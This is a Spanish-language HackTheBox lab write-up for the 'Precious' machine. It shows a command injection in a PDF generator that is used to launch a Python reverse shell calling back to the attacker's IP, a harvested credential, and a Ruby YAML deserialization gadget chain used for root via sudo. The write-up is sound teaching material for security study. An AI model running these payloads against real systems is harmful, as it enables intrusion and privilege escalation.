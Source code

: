 ```yaml
---
title: "Precious - HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: https://user-images.githubusercontent.com/63744631/221410290-68454d65-cce6-465a-8eaa-80437dcf79a6.png
  teaser_home_page: true
  icon: assets/images/icons/HackTheBox-icon.png
categories:
  - HackTheBox
  - Easy
  - Writeup
tags:
  - Web
  - yml
  - sudo

---
```

<img src="https://github.com/doggymux/Doggymux/blob/fde91479a5fa34620bfcbf1b2cad10e0b7772074/assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/Precious.png" alt="Precious" style="zoom: 33%;" align="center" />

<img src="./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/Precious.png" alt="Precious" style="zoom: 33%;" />

# Enumeración 🔎

Como siempre realizamos una pequeña enumeración rápida con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -sS  -T5 --min-rate 5000 -p- 10.129.228.98 -vvv -oG allports
```

Esta primera busqueda la utilizaremos para buscar rapidamente puertos abiertos para realizar un escaneo mas profundo.

```bash
nmap -sCV -T5 --min-rate 5000 -p22,80 10.129.228.98 -oN openports
```

Como podemos ver en el resultado de la busqueda tenemos una redirección en el puerto 80 por lo que si intentamos acceder desde el navegador no tendremos resolución DNS.

```bash
 # Nmap 7.93 scan initiated Sun Feb 26 11:29:01 2023 as: nmap -sCV -T5 --min-rate 5000 -p22,80 -oN openports 10.129.228.98
 Nmap scan report for 10.129.228.98
 Host is up (0.039s latency).

 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
 | ssh-hostkey:
 |   3072 845e13a8e31e20661d235550f63047d2 (RSA)
 |   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
 |_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
 80/tcp open  http    nginx 1.18.0
 |_http-server-header: nginx/1.18.0
 |_http-title: Did not follow redirect to http://precious.htb/
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Sun Feb 26 11:29:11 2023 -- 1 IP address (1 host up) scanned in 9.32 seconds
```

Para acceder se puede modificar el fichero hosts para que la resolución se realice en nuestro propio equipo y ganar acceso a la pagina.

![Webpage1](./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/image-20230226114005541.png)

## Explotación 🔑

Creamos un servidor de python3 en nuestro equipo para que la maquina pueda tener una URL funcional de la cual tendremos control. Si escribimos la IP y puerto de la maquina podremos acceder a este desde la pagina web y crear archivos pdf.

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [26/Feb/2023 11:47:12] "GET / HTTP/1.1" 200 -
10.129.228.98 - - [26/Feb/2023 11:47:58] "GET /smbscan HTTP/1.1" 200 -
```

![Website2](./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/image-20230226115058616.png)

Podemos mirar dentro de las propiedades del archivo desde el propio navegador y se puede ver la aplicación con la que se ha creado.

![Propiedadespdf](./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/image-20230226115632401.png)

Una vez conseguido el nombre de la aplicación podemos buscar si la versión que corre en el servidor tiene algun exploit, haciendo una busqueda en internet podemos encontrar que es vulnerable a command injection. Podemos hacer una pequeña prueba haciendo un sleep 5 si el servidor se demora en devolver la pagina web habremos confirmado que es vulnerable.

```python
http://10.10.14.67:8000/?name=#{'%20`sleep 5`'}
```

Al realizar la prueba la pagina tarda en devolvernos el pdf por lo que ya sabemos que es vulnerable a command injection buscando podemos entonces intentar cargar un exploit en este caso vamos a probar la oneline revershell de python3

```python
http://10.10.14.67/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Una vez realizado el exploit tendremos acceso a una bash con el usuario ruby.

```bash
❯ sudo nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.228.98] 50120
$ whoami
whoami
ruby
$
```

El usuario que hemos adquirido haciendo la explotación no nos permite acceder a ninguna flag por lo que tendremos que realizar una escalada de privilegios para adquirirlas.

## Escalada de privilegios 🚀

Dentro de la maquina con ruby no podremos hacer mucho por lo que deberemos de investigar la maquina por si hubiera alguna contraseña en claro, buscando por el directorio web no se encuentra nada pero en la carpeta /home/ruby podemos encontrar una carpeta oculta .bundle el cual contiene la contraseña de henry.

```bash
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:QXDXDXDXDXDXDXDXDXDH"
$
```

Con esta contraseña podemos acceder por SSH ya que comprobamos en la enumeración de la maquina que teniamos el puerto 22 abierto. 

```bash
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
f--------------------------3
henry@precious:~$
```

### Escalada a root

Para finalizar la maquina haremos la escalada a root lo primero que haremos sera comprobar si henry tiene algun privilegio de sudo. Podemos encontrar que puede utilizar los siguientes comandos:

```ruby
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Con este dato podemos ver que acciones realiza el archivo update_dependencies.rb

```ruby
# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Como podemos ver en el archivo se utiliza el archivo dependencies.yml de la ruta en la que nos encontremos al no estar sanitizada y trabajar con una ruta relativa podemos utilizarlo para realizar nuestro ataque.

[Blind Remote Code Execution through YAML Deserialization (stratumsecurity.com)](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

En concreto vamos a estar usando la ejecución remota de comandos que tenemos en el enlace de arriba. Generamos el archivo dependencies.yml pero en vez de realizar el sleep 600 que muestra enla poc vamos a utilizar el comando id para comprobar que se ejecuta como root.

#### dependencies.yml

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
```

Como vemos hemos ejecutado el comando que se encuentra en el campo git_set como root por lo que podemos spawnear una shell gracias a esto. Solo deberemos de cambiar la linea mencionada por /bin/bash -i

```bash
root@precious:/home/henry# cat /root/root.txt ; cat user.txt
4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX3
root@precious:/home/henry#
```

